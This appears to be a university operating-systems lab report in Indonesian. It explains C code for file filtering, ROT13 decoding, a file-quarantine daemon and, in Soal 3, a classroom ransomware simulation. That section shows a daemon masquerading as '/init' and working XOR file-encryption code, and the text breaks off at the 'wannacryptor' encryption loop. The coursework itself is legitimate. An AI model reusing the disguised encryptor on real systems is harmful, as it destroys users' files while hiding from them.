# Sisop-2-2025-IT10

## Member

| No  | Nama                   | NRP        |
| --- | ---------------------- | ---------- |
| 1   | Ardhi Putra Pradana    | 5027241022 |
| 2   | Aslam Ahmad Usman      | 5027241074 |
| 3   | Kanafira Vanesha Putri | 5027241010 |

## Reporting

### Soal 1

#### Penjelasan

A. Downloading the Clues
B. Filtering the Files
C. Combine the File Content
D. Decode the file
E. Password Check

##### Help Command

```c
./action
./action -m Filter
./action -m Combine
./action -m Decode
```

A. Pertama-tama, program bakal mengecek apakah folder Clues sudah ada. Jika belum, maka akan mendownload file Clues.zip dari. Setelah itu, file zip-nya diunzip, dan file zip-nya dihapus.

```c
void download_and_unzip() {
    struct stat st = {0};
    if (stat("Clues", &st) == 0 && S_ISDIR(st.st_mode)) return;

    char *wget_args[] = {"wget", "-q", "-O", ZIP_FILE, ZIP_URL, NULL};
    if (!run_command("wget", wget_args)) return;

    char *unzip_args[] = {"unzip", "-q", ZIP_FILE, NULL};
    if (!run_command("unzip", unzip_args)) return;

    remove(ZIP_FILE);
}
```

B. Setelah berhasil di-unzip, di dalam folder Clues terdapat banyak file di subfolder ClueA, ClueB, ClueC, dan ClueD. Nah, disini kita hanya ingin mengambil file yang bentuknya memiliki nama satu karakter .txt. File yang valid akan dipindah ke folder baru yang namanya Filtered.

```c
void filter_files() {
    DIR *dir;
    struct dirent *entry;

    mkdir("Filtered", 0755);
    const char *subdirs[] = {"Clues/ClueA", "Clues/ClueB", "Clues/ClueC", "Clues/ClueD"};

    for (int i = 0; i < 4; ++i) {
        dir = opendir(subdirs[i]);
        if (!dir) continue;

        char path[256];
        while ((entry = readdir(dir))) {
            if (is_valid_file(entry->d_name)) {
                snprintf(path, sizeof(path), "%s/%s", subdirs[i], entry->d_name);
                char dest[256];
                snprintf(dest, sizeof(dest), "Filtered/%s", entry->d_name);
                rename(path, dest);
            } else if (entry->d_type == DT_REG) {
                snprintf(path, sizeof(path), "%s/%s", subdirs[i], entry->d_name);
                remove(path);
            }
        }
        closedir(dir);
    }
}

int cmp(const void *a, const void *b) {
    return strcmp(*(const char **)a, *(const char **)b);
}
```

C. File yang udah difilter tadi bakal digabung menjadi satu file yang diberi namanya Combined.txt. Penyusunannya diawali dengan File yang memiliki nama yang diawali angka digabung duluan, lalu diselang-selingi sama yang huruf. Semua isinya ditulis berurutan ke dalam file Combined.txt.

```c
void combine_files() {
    DIR *dir = opendir("Filtered");
    struct dirent *entry;
    char *numbers[100], *letters[100];
    int n_count = 0, l_count = 0;

    if (!dir) {
        fprintf(stderr, "Folder Filtered tidak ditemukan.\n");
        return;
    }

    while ((entry = readdir(dir))) {
        if (is_valid_file(entry->d_name)) {
            if (isdigit(entry->d_name[0]))
                numbers[n_count++] = strdup(entry->d_name);
            else if (isalpha(entry->d_name[0]))
                letters[l_count++] = strdup(entry->d_name);
        }
    }
    closedir(dir);

    qsort(numbers, n_count, sizeof(char *), cmp);
    qsort(letters, l_count, sizeof(char *), cmp);

    FILE *out = fopen("Combined.txt", "w");
    if (!out) {
        perror("Gagal membuat Combined.txt");
        return;
    }

    int ni = 0, li = 0;
    while (ni < n_count || li < l_count) {
        if (ni < n_count) {
            char path[256];
            snprintf(path, sizeof(path), "Filtered/%s", numbers[ni++]);
            FILE *f = fopen(path, "r");
            if (f) {
                int c;
                while ((c = fgetc(f)) != EOF) fputc(c, out);
                fclose(f);
            }
            remove(path);
        }
        if (li < l_count) {
            char path[256];
            snprintf(path, sizeof(path), "Filtered/%s", letters[li++]);
            FILE *f = fopen(path, "r");
            if (f) {
                int c;
                while ((c = fgetc(f)) != EOF) fputc(c, out);
                fclose(f);
            }
            remove(path);
        }
    }

    fclose(out);
    printf("Isi file telah digabung ke Combined.txt\n");

    for (int i = 0; i < n_count; i++) free(numbers[i]);
    for (int i = 0; i < l_count; i++) free(letters[i]);
}
```

D. Isi Combined.txt tadi masih dalam bentuk ROT13. Sehingga dilakukan decode huruf-hurufnya, lalu menyimpan hasil decode ke file Decoded.txt. Nah, isi dari file ini yang nanti jadi password sebenarnya.

```c
void rot13_decode() {
    FILE *in = fopen("Combined.txt", "r");
    FILE *out = fopen("Decoded.txt", "w");

    int c;
    while ((c = fgetc(in)) != EOF) {
        if (isalpha(c)) {
            if ((c >= 'a' && c <= 'm') || (c >= 'A' && c <= 'M'))
                c += 13;
            else
                c -= 13;
        }
        fputc(c, out);
    }

    fclose(in);
    fclose(out);
}
```

E. Password checking 

#### Output

- help

  

1. Melakukan inisialisi untuk mendownload ketika tidak ada folder **Clues**

   
   

2. Melakukan filterisasi file Valid ke folder Filtered

   
   

3. Menggabungkan isi file ke Combined.txt

   

4. Melakukan Decode File Combined.txt (ROT13) lalu dimasukkan ke Decoded.txt

   
   

5. Melakukan Password Checking

   

### Soal 2

#### Penjelasan

Pertama yang dilakukan adalah melakukan setup function untuk melakukan `daemon` yaitu dengan membuat function `daemonize`.

```c
void daemonize(char *argv0, char *daemonName) {
    prctl(PR_SET_NAME, daemonName, 0, 0, 0);
    strncpy(argv0, daemonName, 512);

    pid_t pid = fork();
    int status;

    if (pid < 0) exit(1);
    if (pid > 0) exit(0);
    if (setsid() < 0) exit(1);

    umask(0);
    for (int x = sysconf(_SC_OPEN_MAX); x > 0; x--) close(x);
    char message[256];
    snprintf(message, sizeof(message), "Successfully started decryption process with PID %d", getpid());
    logger(message);
}
```

Lalu selanjutnya adalah membuat function untuk membantu dan mempermudah membuat child process, disini dibuatlah function `spawn_process` dimana function ini akan menerima sebuah `callback` function yang akan dijalankan pada process yang bersangkutan.

```c
void spawn_process(char *argv0, char *processName, int (*callback)(char *argv0)) {
    pid_t pid = fork();
    if (pid < 0 || pid > 0) return;

    prctl(PR_SET_PDEATHSIG, SIGTERM);
    if (argv0 != NULL && processName != NULL) {
        prctl(PR_SET_NAME, processName, 0, 0, 0);
        strncpy(argv0, processName, 128);
    }
    exit(callback(argv0));
}
```

Function selanjutnya adalah dengan membuat function `run_command` yang tujuannya adalah sebagai wrapper untuk melakukan **execvp** untuk bisa dengan mudah digunakan dikode lainnya tanpa harus melakukan waiting process satu persatu dan membuat kode lebih clean.

```c
int run_command(char *cmd, char *args[]) {
    pid_t pid = fork();
    if (pid == 0) {
        execvp(cmd, args);
        exit(EXIT_FAILURE);
    } else if (pid > 0) {
        int status;
        waitpid(pid, &status, 0);
        return WIFEXITED(status) && WEXITSTATUS(status) == 0;
    } else {
        return 0;
    }
}
```

Point **a**

Pada point soal ini ditujukan untuk mendownload file zip dari link gdrive yang sudah diberikan jika folder **starter_kit** belum ada.

```c
void download_extract_zip() {
    struct stat st;
    if (stat("starter_kit", &st) == 0 && S_ISDIR(st.st_mode)) return;
    printf("Initializing program, downloading and extract zip...\n");

    char *wget_args[] = {"wget", "-q", "-O", "starter_kit.zip", "--no-check-certificate", FILE_DRIVE, NULL};
    run_command("/bin/wget", wget_args);

    char *unzip_args[] = {"unzip", "-q", "starter_kit.zip", "-d", "starter_kit", NULL};
    run_command("/bin/unzip", unzip_args);

    remove("starter_kit.zip");
}
```

Point **b**

Pada poin ini ditujukan untuk membuat sebuah fitur yang dapat melakukan decrypt nama file yang ada pada folder **quarantine**

Terdapat function **is_base64** untuk mengecek apakah value atau string tersebut adalah value dari base64 yang valid.

```c
int is_base64(char *str) {
    const char *base64_chars = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/=";
    size_t len = strlen(str);
    if (len % 4 != 0) return 0;
    for (size_t i = 0; i < len; i++) {
        if (strchr(base64_chars, str[i]) == NULL) return 0;
    }
    return 1;
}
```

Lalu terdapat function **b64_decoded_size** yang digunakan untuk menghitung kira - kira sebarapa banyak size yang akan dihasilkan dari hasil decode/decrypt karakter base64 nya nanti.

```c
size_t b64_decoded_size(const char *text) {
    size_t len = strlen(text);
    size_t ret = len / 4 * 3;

    if (len >= 1 && text[len - 1] == '=') ret--;
    if (len >= 2 && text[len - 2] == '=') ret--;

    return ret;
}
```

Function utama untuk melakukan decrypt/decode yaitu **base64_decode** yang dimana adalah function akhir bahkan entrypoint yang digunakan untuk men-decode/decrypt karakter base64 nya.

```c
unsigned char *base64_decode(char *text, size_t *outlen) {
    size_t len = strlen(text);
    size_t decoded_len = b64_decoded_size(text);
    unsigned char *out = malloc(decoded_len);
    if (!out) return NULL;

    int v;
    size_t i, j;
    for (i = 0, j = 0; i < len; i += 4, j += 3) {
        v = b64invs[text[i] - 43];
        v = (v << 6) | b64invs[text[i + 1] - 43];
        v = (text[i + 2] == '=') ? (v << 6) : ((v << 6) | b64invs[text[i + 2] - 43]);
        v = (text[i + 3] == '=') ? (v << 6) : ((v << 6) | b64invs[text[i + 3] - 43]);

        out[j] = (v >> 16) & 0xFF;
        if (text[i + 2] != '=') out[j + 1] = (v >> 8) & 0xFF;
        if (text[i + 3] != '=') out[j + 2] = v & 0xFF;
    }

    if (outlen) *outlen = decoded_len;
    return out;
}
```

Untuk function **sanitize_filename** disini digunakan untuk melakukan filterisasi dan normalisasi karakter - karakter non-printable yang dihasilkan dari hasil decrypt/decode base64nya dan memastikan bahwa setiap karakter hasil decode nya merupakan valid sebagai filename.

```c
void sanitize_filename(unsigned char *buf, size_t len) {
    size_t j = 0;
    for (size_t i = 0; i < len; i++) {
        if (isprint(buf[i]) && buf[i] != '/' && buf[i] != '\\' && buf[i] != '\n' && buf[i] != '\r') {
            buf[j++] = buf[i];
        }
    }
    buf[j] = '\0';
}
```

Selanjutnya ini adalah function utama yang akan menjadi entrypoint fitur untuk melakukan decrypt dan melakukan running processnya.
Dimana kurang lebih function ini akan melakukan read directory **quarantine** dan membaca semua isinya, dan mengecek untuk file tersebut memiliki nama base64, dan jika valid maka akan didecode.

```c
int decrypt_filename() {
    char *foldername = "quarantine";
    struct stat st;
    if (stat(foldername, &st) == -1) {
        if (mkdir(foldername, 0700) == -1) return 1;
    }

    DIR *dir = opendir(foldername);
    if (dir == NULL) return 1;

    struct dirent *entry;

    while ((entry = readdir(dir)) != NULL) {
        if (entry->d_name[0] == '.') continue;
        if (entry->d_type == DT_DIR) continue;
        if (strrchr(entry->d_name, '.')) continue;
        if (!is_base64(entry->d_name)) continue;

        size_t decoded_len;
        unsigned char *decoded_name = base64_decode(entry->d_name, &decoded_len);
        if (!decoded_name) continue;

        sanitize_filename(decoded_name, decoded_len);

        char new_name[PATH_MAX], old_name[PATH_MAX];
        snprintf(old_name, sizeof(old_name), "%s/%s", foldername, entry->d_name);
        snprintf(new_name, sizeof(new_name), "%s/%s", foldername, decoded_name);

        rename(old_name, new_name);
        free(decoded_name);
    }

    closedir(dir);
    return 0;
}
```

Point **c**

Selanjutnya untuk poin c adalah fitur untuk memindahkan file dari sebuah folder, yaitu dari **starter_kit** ke **quarantine** dan sebaliknya.

Oleh karena itu dibuatlah 1 function saja yang dapat menghandle fungsionalitas tersebut yaitu function `move_files` yang fungsinya adalah untuk memindahkan file dari folder A ke folder B.

```c
int move_files(char *old_folder, char *new_folder) {
    DIR *dir;
    struct dirent *entry;
    struct stat st;
    char old_path[PATH_MAX], new_path[PATH_MAX];

    dir = opendir(old_folder);
    if (!dir) return -1;

    if (stat(new_folder, &st) == -1) {
        if (mkdir(new_folder, 0755) == -1) {
            closedir(dir);
            return -1;
        }
    }

    while ((entry = readdir(dir)) != NULL) {
        if (entry->d_name[0] == '.') continue;
        if (entry->d_type == DT_DIR) continue;
        snprintf(old_path, sizeof(old_path), "%s/%s", old_folder, entry->d_name);
        snprintf(new_path, sizeof(new_path), "%s/%s", new_folder, entry->d_name);
        rename(old_path, new_path);

        char message[PATH_MAX];
        snprintf(message, sizeof(message), "%s - Successfully moved to %s directory.", entry->d_name, new_folder);
        logger(message);
    }

    closedir(dir);
    return 0;
}
```

Point **d**

Untuk poin d adalah fitur untuk menghapus file dari folder **quarantine** satu persatum, jadi disini dibuatlah function `delfiles` yang dimana akan melakukan read directory dari parameternya dan kemudian menghapusnya satu persatu file yang ada dalam directory tersebut.

```c
int delfiles(char *foldername) {
    DIR *dir;
    struct dirent *entry;
    char path[PATH_MAX];

    dir = opendir(foldername);
    if (!dir) return -1;

    while ((entry = readdir(dir)) != NULL) {
        if (entry->d_name[0] == '.') continue;
        snprintf(path, sizeof(path), "%s/%s", foldername, entry->d_name);
        remove(path);

        char message[PATH_MAX];
        snprintf(message, sizeof(message), "%s - Successfully deleted.", entry->d_name);
        logger(message);
    }

    closedir(dir);
    return 0;
}
```

Point **e**

Poin e ini digunakan untuk mematikan daemon process yang dijalankan oleh handle process sebelumnya yaitu handle process untuk melakukan decrypt nama file, oleh karena itu dibuatlah function `shutdown` dimana akan mencoba melakukan read pid sesuai dengan nama processnya dan kemudian melakukan kill dengan signal `SIGTERM` untuk melakukan gracefull shutdown, sesuai dengan perintah soal.

```c
int shutdown(char *processName) {
    char command[256];
    snprintf(command, sizeof(command), "pidof %s", processName);
    FILE *fp = popen(command, "r");
    if (fp == NULL) return 1;

    pid_t pid;
    if (fscanf(fp, "%d", &pid) == 1) {
        kill(pid, SIGTERM);

        char message[256];
        snprintf(message, sizeof(message), "Successfully shut off decryption process with PID %d.", pid);
        logger(message);
    }
    pclose(fp);

    return 0;
}
```

Point **f**

Handle error sudah dilakukan dan akan dijelaskan pada bagian selanjutnya. Namun disini kurang lebih dibuat function `help` untuk mencoba callback function ketika ada sesuatu yang salah atau tidak sesuai.

```c
void help() {
    printf("Usage: starterkit <command>\n");
    printf("Available commands:\n");
    printf("\t--decrypt\n");
    printf("\t--quarantine\n");
    printf("\t--return\n");
    printf("\t--eradicate\n");
    printf("\t--shutdown\n");
}
```

Point **g**

Untuk melakukan logging disini membuat function **logger** yang akan memasukkan log message ke file, dimana function ini juga sudah dipanggil ditempat - tempat dimana soal meminta untuk dilakukan logging.

```c
void logger(char *message) {
    FILE *fp = fopen("activity.log", "a");
    if (fp) {
        time_t now = time(NULL);
        struct tm *t = localtime(&now);
        char time_str[24];
        strftime(time_str, sizeof(time_str), "[%d-%m-%Y] [%H:%M:%S]", t);
        fprintf(fp, "%s - %s\n", time_str, message);
        fclose(fp);
    }
}
```

Kemudian terakhir adalah untuk main entrypoint yang akan menjadi handle untuk setiap argument dari program ini.

```c
int main(int argc, char *argv[]) {
    download_extract_zip();
    if (argc < 2 || argc > 2) {
        help();
        return 1;
    }

    char *command = argv[1];
    if (strcmp(command, "--decrypt") == 0) {
        daemonize(argv[0], "starterkit-decryptor");
        while (1) {
            decrypt_filename();
            sleep(1);
        }
    } else if (strcmp(command, "--quarantine") == 0) {
        move_files("starter_kit", "quarantine");
    } else if (strcmp(command, "--return") == 0) {
        move_files("quarantine", "starter_kit");
    } else if (strcmp(command, "--eradicate") == 0) {
        delfiles("quarantine");
    } else if (strcmp(command, "--shutdown") == 0) {
        shutdown("starterkit-decryptor");
    } else {
        help();
        return 1;
    }

    return 0;
}
```

#### Output

1. Melakukan inisialisi untuk mendownload ketika tidak ada folder **starter_kit** dan akan menampilkan help command

Ketika program pertama kali dijalankan dan tidak folder **starter_kit** maka akan membuat mendownload zip dan melakukan ekstraksi kemudian menampilkan help message.


Dan ini adalah output ketika selesai dilakukan download dan ekstraksi zipnya.


2. Melakukan start decrypting

Ketika daemon process decryption dijalankan


Log yang menyatakan bahwa daemomn process berhasil dijalankan


3. Memindahkan file dari **starter_kit** ke **quarantine**

Proof ketika perpindahan file dari **starter_kit** ke **quarantine** dijalankan.


Hasil log ketika berhasil memindahkan


3. Memindahkan file dari **quarantine** ke **starter_kit**

Proof ketika perpindahan file dari **quarantine** ke **starter_kit** dijalankan.


Hasil log ketika berhasil memindahkan


4. Menghapus semua file dari folder **quarantine**

Eksekusi command untuk melakukan penghapus file di **quarantine** atau eradicate


Hasil log yang menunjukan berhasilnya proses penghapusan


5. Shutdown process

Eksekusi command untuk menghentikan daemon process sebelumnya


Hasil log ketika berhasil menghentikan processnya


#### Kendala

Tidak ada kendala

### Soal 3

#### Penjelasan

Membuat function untuk membantu dan mempermudah membuat child process, disini dibuatlah function `spawn_process` dimana function ini akan menerima sebuah `callback` function yang akan dijalankan pada process yang bersangkutan.

```c
void spawn_process(char *argv0, char processName[], int (*callback)(char *argv0, char *args[]), char *args[]) {
    pid_t pid = fork();
    if (pid < 0 || pid > 0) return;

    prctl(PR_SET_PDEATHSIG, SIGTERM);
    prctl(PR_SET_NAME, processName, 0, 0, 0);
    strncpy(argv0, processName, 128);
    exit(callback(argv0, args));
}
```

Function selanjutnya adalah dengan membuat function `run_command` yang tujuannya adalah sebagai wrapper untuk melakukan **execvp** untuk bisa dengan mudah digunakan dikode lainnya tanpa harus melakukan waiting process satu persatu dan membuat kode lebih clean.

```c
int run_command(char *cmd, char *args[]) {
    pid_t pid = fork();
    if (pid == 0) {
        execvp(cmd, args);
        exit(EXIT_FAILURE);
    } else if (pid > 0) {
        int status;
        waitpid(pid, &status, 0);
        return WIFEXITED(status) && WEXITSTATUS(status) == 0;
    } else {
        return 0;
    }
}
```

Point **a**

Untuk poin a yaitu diperintahkan untuk membuat daemon process oleh karena itu disini dibuatlah function `daemonize` untuk membaut daemon process dan kemudian melakukan renaming thread process nya menjadi `/init`

```c
void daemonize(char *argv0) {
    prctl(PR_SET_NAME, "/init", 0, 0, 0);
    strncpy(argv0, "/init", 128);

    pid_t pid = fork();
    int status;

    if (pid < 0) exit(1);
    if (pid > 0) exit(0);
    if (setsid() < 0) exit(1);

    umask(0);
    for (int x = sysconf(_SC_OPEN_MAX); x > 0; x--) close(x);
}
```

Point **b**

Lalu untuk poin b adalah handler process untuk melakukan encryption filesystem dicurrent directory dimana binary ini dijalankan.

Pertama adalah membuat function `xor_file`, sesuai namanya function ini akan melakukan xor encryption dimana menggunakan key dari current timestamp sesuai dengan petunjuk soal.

```c
int xor_file(const char *filename, time_t timestamp) {
    FILE *file = NULL;
    unsigned char *file_buffer = NULL, *key = NULL;
    size_t key_length, file_size, i;
    int ret = 1;

    key = malloc(32);
    if (!key) goto cleanup;
    snprintf((char *)key, 32, "%ld", timestamp);
    key_length = strlen((char *)key);

    file = fopen(filename, "rb+");
    if (!file) goto cleanup;

    fseek(file, 0, SEEK_END);
    file_size = ftell(file);
    rewind(file);

    file_buffer = malloc(file_size);
    if (!file_buffer) goto cleanup;

    if (fread(file_buffer, 1, file_size, file) != file_size) goto cleanup;

    for (i = 0; i < file_size; i++) file_buffer[i] ^= key[i % key_length];

    rewind(file);
    if (fwrite(file_buffer, 1, file_size, file) != file_size) goto cleanup;
    ret = 0;

cleanup:
    if (file) fclose(file);
    free(file_buffer);

    if (ret != 0) {
        free(key);
        return 1;
    }

    return 0;
}
```

Lalu kemudian ini adalah function untuk melakukan handler processnya, dimana function ini akan membaca current directory dan melakukan encryption menggunakan metode zip, yaitu jika yang dibaca adalah folder maka dilakukan zip pada folder tersebut dan kemudian melakukan encryption dan folder sebelumnya dihapus, dan jika file bisa langsung dienkripsi secara langsung, dan akan terus berjalan dengan interval waktu 30 detik.

```c
int wannacryptor() {
    while (1) {
        DIR *dir = opendir(".");
        if (!dir) return 1;

